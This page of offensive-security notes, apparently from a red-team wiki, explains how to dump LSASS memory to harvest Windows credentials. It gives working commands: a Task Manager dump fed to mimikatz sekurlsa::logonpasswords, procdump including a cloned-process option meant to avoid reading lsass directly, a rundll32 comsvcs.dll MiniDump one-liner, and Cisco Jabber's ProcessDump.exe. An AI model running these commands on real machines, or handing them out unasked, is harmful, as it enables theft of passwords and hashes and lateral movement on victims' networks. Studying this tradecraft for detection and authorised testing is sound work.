 # Dumping Lsass Without Mimikatz

## MiniDumpWriteDump API

See my notes about writing a simple custom process dumper using `MiniDumpWriteDump` API:

{% page-ref page="dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md" %}

## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](../../.gitbook/assets/image%20%28405%29.png)

## ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber \(always?\) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:

```text
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

![screenshot by @em1rerdogan](../../.gitbook/assets/image%20%28544%29.png)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" caption="" %}

